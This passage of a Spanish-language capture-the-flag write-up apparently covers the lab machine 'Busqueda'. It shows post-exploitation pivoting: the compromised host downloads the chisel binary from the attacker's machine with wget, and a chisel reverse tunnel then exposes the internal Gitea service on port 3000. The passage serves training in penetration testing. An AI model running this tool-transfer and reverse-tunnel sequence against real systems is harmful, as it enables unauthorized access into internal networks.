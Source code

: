 ```bash
	<meta name="keywords" content="go,git,self-hosted,gitea">
	<meta name="referrer" content="no-referrer">
```

El siguiente objetivo será realizar **Port Forwarding** con `chisel` para lograr tener acceso a la página web de `Gitea`. Para ello, compartiremos el binario de `chisel` a través de un servidor web.

```bash
❯ ls -l chisel
.rwxrwxr-x kali kali 8.9 MB Thu Feb 13 06:27:17 2025  chisel

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario de `chisel` y le daremos los permisos de ejecución correspondientes.

```bash
svc@busqueda:/tmp$ wget 10.10.16.7/chisel
--2025-02-13 05:28:28--  http://10.10.16.7/chisel
Connecting to 10.10.16.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.94M  14.4MB/s    in 0.6s    

2025-02-13 05:28:29 (14.4 MB/s) - ‘chisel’ saved [9371800/9371800]

svc@busqueda:/tmp$ chmod +x chisel 
```

En nuestro equipo local, configuraremos `chisel` para que actúe como servidor.

```bash
❯ ./chisel server --reverse -p 1234
2025/02/13 06:28:08 server: Reverse tunnelling enabled
2025/02/13 06:28:08 server: Fingerprint xFMTGHlQJdJsHHdW3CIYK8LVKjgF03JbfqsK8OAo85A=
2025/02/13 06:28:08 server: Listening on http://0.0.0.0:1234
```

Desde el equipo comprometido, configuraremos `chisel` para que actúe como cliente de nuestro servidor y compartiremos el puerto 3000 interno a que sea el puerto 80 de nuestro equipo local.

```bash
svc@busqueda:/tmp$ ./chisel client 10.10.16.7:1234 R:80:127.0.0.1:3000
2025/02/13 05:36:41 client: Connecting to ws://10.10.16.7:1234
2025/02/13 05:36:42 client: Connected (Latency 33.301115ms)
```

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep searcher
127.0.0.1	localhost kali gitea.searcher.htb
```
